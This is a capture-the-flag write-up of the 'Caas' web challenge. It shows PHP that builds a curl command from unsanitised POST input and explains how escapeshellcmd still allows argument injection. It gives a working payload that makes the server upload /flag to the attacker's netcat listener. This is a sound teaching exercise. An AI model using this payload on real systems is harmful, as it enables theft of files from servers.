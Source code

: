```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge name, I suspect it has something to do with `curl`. Which could be vulnerable to _command injection_. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like some sort of service using presumably `curl` to query IP addresses:
![](/assets/img/caas_web.png#center)
## Vulnerability
Let's take a look at `CurlController.php`:
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
It takes an `ip` from the body without any sanitization and creates a new Command Model, so let’s check what the file `CommandModel.php` does:
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Ok, we have a main point of interest. We can see that constructor builds the `curl` command from the input parameter.

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.
## Exploitation
With that information, we can simply request the flag and send it to our host machine. Type the following command after setting up a nc listener on port 6666:
```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```
We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶
